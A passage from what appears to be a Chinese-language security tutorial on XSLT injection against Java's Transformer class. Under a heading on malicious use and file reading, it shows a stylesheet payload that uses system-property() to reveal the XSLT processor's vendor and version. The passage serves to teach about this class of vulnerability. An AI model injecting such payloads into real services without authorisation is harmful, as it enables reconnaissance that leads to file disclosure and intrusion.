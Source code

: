 浏览器打开

![QQ_1730879037413](images/1.png)

可以知道的是，通过Transformer示例化时传入的xslt样式表，可以用其transform方法对source进行转化，最终将字符串进行返回，通过这种方式可以将xml这种source转换成不同的模板（HTML，XML，PDF）等

# 恶意利用

## 文件读取

对于xsl:value-of标签，我们可以通过system-property()返回系统属性的值

```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:value-of select="system-property('xsl:vendor')"/>
    <xsl:value-of select="system-property('xsl:vendor-url')"/>
    <xsl:value-of select="system-property('xsl:version')"/>
  </xsl:template>
</xsl:stylesheet>
```

![QQ_1730879439816](images/2.png)
